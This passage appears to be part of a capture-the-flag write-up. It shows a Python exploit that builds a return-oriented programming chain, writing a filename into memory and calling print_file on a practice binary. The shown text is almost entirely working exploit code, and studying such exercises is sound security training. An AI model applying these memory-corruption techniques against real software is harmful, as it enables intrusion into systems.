 ```python


# add .txt to end of string
ropChain += p64(g_popRsiR15);
ropChain += p64(a_writeLocation + 4);
ropChain += p64(v_junk);
ropChain += p64(g_popRdi);
ropChain += b'.txtAAAA'
ropChain += p64(g_writeEdiAtRsi);

# add null byte to end of string
ropChain += p64(g_popRsiR15);
ropChain += p64(a_writeLocation + 8);
ropChain += p64(v_junk);
ropChain += p64(g_popRdi);
ropChain += b'\x00AAAAAAA'
ropChain += p64(g_writeEdiAtRsi);

# call print_file with string address
ropChain += p64(g_popRdi);
ropChain += p64(a_writeLocation);
ropChain += p64(f_printfile);

print(proc.readuntil(b'> '))
proc.send(padding + ropChain)
proc.interactive()
```
{% endcode %}
